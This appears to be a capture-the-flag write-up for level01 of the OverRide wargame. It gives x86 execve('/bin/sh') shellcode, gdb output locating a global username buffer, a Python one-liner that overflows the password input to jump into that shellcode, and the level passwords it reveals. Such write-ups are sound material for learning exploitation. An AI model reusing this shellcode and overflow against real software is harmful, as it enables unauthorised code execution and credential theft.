 # Level 01
*password : uSq2ehEGT6c9S24zbshexZQBXUGrncxn5sD5QfGL*

## Analyze
```
scp -P 4242 level01@192.168.56.109:level01 binary/
```

name : `dat_wil`\
`verify_user_name()` check only the 7 first characters

shellcode : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`
```
$ export SHELLCODE=$(python -c 'print "\x90" * 200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
```
```
$ scp -P 4242 level01/Ressources/getenv.c  level01@192.168.56.109:/tmp/
```
```
$ cd /tmp
$ level01@OverRide:/tmp$ gcc getenv.c
$ level01@OverRide:/tmp$ cd -
/home/users/level01
$ level01@OverRide:~$ /tmp/a.out
0x7fffffffe822
```

```
(gdb) b verify_user_name
Breakpoint 1 at 0x8048469
(gdb) run
Starting program: /home/users/level01/level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil

Breakpoint 1, 0x08048469 in verify_user_name ()
(gdb) x/x eax
No symbol table is loaded.  Use the "file" command.
(gdb) x/x $eax
0x804a040 <a_user_name>:        0x5f746164
```
buffer a_user_name + 7 = 804a040 + 7 = 804a047

```
$ python -c 'print "dat_wil" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\n" + "x42" * 80 + "\x47\xa0\x04\x08"' > /tmp/level1 ; cat /tmp/level1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...


cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv

```
